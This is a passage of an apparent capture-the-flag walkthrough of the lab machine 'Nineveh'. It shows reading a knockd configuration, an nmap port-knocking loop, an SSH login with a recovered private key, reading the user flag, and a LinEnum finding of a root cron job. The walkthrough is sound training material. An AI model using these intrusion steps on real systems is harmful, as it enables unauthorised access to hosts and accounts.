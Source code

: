 Next, we know that we have a knockd file. Now, we will have to find the order in which the ports are being knocked. Checking the knockd.conf file, we are able to find the sequence where the ports are being connected.

```
www-data@nineveh:/tmp$ cat /etc/knockd.conf
cat /etc/knockd.conf
[options]
 logfile = /var/log/knockd.log
 interface = ens160

[openSSH]
 sequence = 571, 290, 911 
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn
```

Let us make a short script to do port knocking.

```
for x in 571 290 911; do nmap -Pn --host-timeout 50 --max-retries 0 -p $x 10.10.10.43; done;
```

Afterwards, we will then be able to SSH into the server as amrois

```
┌──(kali㉿kali)-[~/Desktop/extracted/secret]
└─$ ssh -i nineveh.priv amrois@10.10.10.43                                               
Last login: Mon Jul  3 00:19:59 2017 from 192.168.0.14
amrois@nineveh:~$ id
uid=1000(amrois) gid=1000(amrois) groups=1000(amrois)
amrois@nineveh:~$ 
```
### Obtaining user flag

```
amrois@nineveh:~$ cat user.txt
<Redacted user text>
```

### Privilege Escalation to root

Using the LinEnum script, we realize that there is a script running on a cron job

```
[-] Jobs held by all users:
# m h  dom mon dow   command
*/10 * * * * /usr/sbin/report-reset.sh
```
